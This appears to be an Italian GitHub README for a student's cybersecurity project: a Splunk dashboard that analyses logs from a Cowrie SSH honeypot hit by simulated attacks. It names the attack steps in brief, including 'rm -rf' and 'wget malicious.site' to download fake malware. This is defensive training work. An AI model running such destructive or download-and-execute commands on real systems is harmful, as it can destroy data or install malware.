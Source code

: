 # Cowrie-honeypot-analysis

Splunk Dashboard

Questo progetto fa parte del mio percorso di formazione in **cybersecurity**, focalizzato sull’analisi di attacchi simulati tramite honeypot.

**Obiettivo**
Creare una dashboard Splunk per analizzare i log generati dal honeypot Cowrie, simulando attacchi realistici al fine di:
- Allenarmi all'analisi di log
- Comprendere le tecniche usate dagli attaccanti
- Costruzione di un portfolio adatto alla cyber sicurezza.

**Tecnologie utilizzate**
- Kali Linux (VirtualBox)
- Cowrie (SSH Honeypot)
- Splunk Enterprise
- GitHub
- Bash scripting

**Attacchi simulati**
Attraverso lo script 'cowrie_attack.sh' ho simulato un attaccante che:
- Effettua login con credenziali valide
- Esegue comandi sospetti ('whoami', 'rm -rf', ecc)
- Scarica un finto malware ('wget malicious.site')
- Lancia uno script potenzialmente pericoloso

Queste azioni sono tutte registrate nei log JSON di Cowrie e **analizzate con Splunk**.

**Dashboard Cowrie**

La dashboard contiene:

**Pannello**                         **Descrizione**                                      

Eventi per tipo (`eventid`)  - - Visualizza il volume di ogni tipologia di log 
![Dashboard - Eventi per tipo](images/Eventi_per_tipo.jpg)

<br>Comandi eseguiti         - - Mostra i comandi digitati dall’attaccante
![Comandi Eseguiti](images/Comandi_digitati.jpg)

<br>File scaricati           - - Elenco degli URL da cui sono stati scaricati file

<br>Login riusciti           - - IP e credenziali utilizzate
![Login riusciti](images/Login_Riusciti)

<br>Timeline attacchi        - - Attività visualizzata nel tempo
![Timeline attacchi](images/Timeline_attacchi.jpg)

<br>IP attaccanti più attivi - - Gli IP che generano più eventi
![Ip attaccanti](images/Ip_attaccanti.jpg)




